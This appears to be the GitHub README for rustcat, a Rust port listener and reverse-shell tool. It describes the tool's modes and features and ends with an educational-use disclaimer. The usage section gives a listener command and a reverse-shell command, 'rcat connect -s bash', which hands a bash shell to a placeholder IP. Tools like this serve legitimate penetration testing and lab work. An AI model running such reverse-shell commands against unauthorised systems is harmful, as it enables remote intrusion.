 <div align="center">
      <h1>rustcat - The modern port listener and reverse shell </h1>
</div>

<p align="center">
	<img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/robiot/rustcat/total?label=GitHub%20Downloads" />
  	<a href="https://aur.archlinux.org/packages/rustcat"><img alt="AUR version" src="https://img.shields.io/aur/version/rustcat" /></a>
  	<img alt="GitHub Issues" src="https://img.shields.io/github/issues/robiot/rustcat.svg" />
  	<img alt="GitHub Contributors" src="https://img.shields.io/github/contributors/robiot/rustcat" /></a>
</p>

## What is Rustcat
Rustcat is an easy to use port listener and reverse shell for Linux, MacOS, and Windows aimed to be easy to use and accessible.

![image](https://user-images.githubusercontent.com/68228472/184684103-87bf3af8-0607-4789-b3a2-09ce67efce55.jpg)

## Modes
- Listen mode (listen);
- Reverse shell mode (connect);

## Featurees
- Command history & Tab completion (Interactive mode);
- CTRL-C blocking;
- Colors;
- Everything easy;

## Installing
Check out the [Installation Guide](https://github.com/robiot/rustcat/wiki/Installation-Guide). Or if you want to have it portable, check out the [latest release](https://github.com/robiot/rustcat/releases/latest)

## Usage
The most basic and useful example to start listening on a port would be:
```
rcat listen -ib 55600
```
and to connect:
```
rcat connect -s bash the.0.0.ip 55600
```

For some more basic usage, check [here](https://github.com/robiot/rustcat/wiki/Basic-Usage)

## Disclaimer
This tool may be used for educational purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.
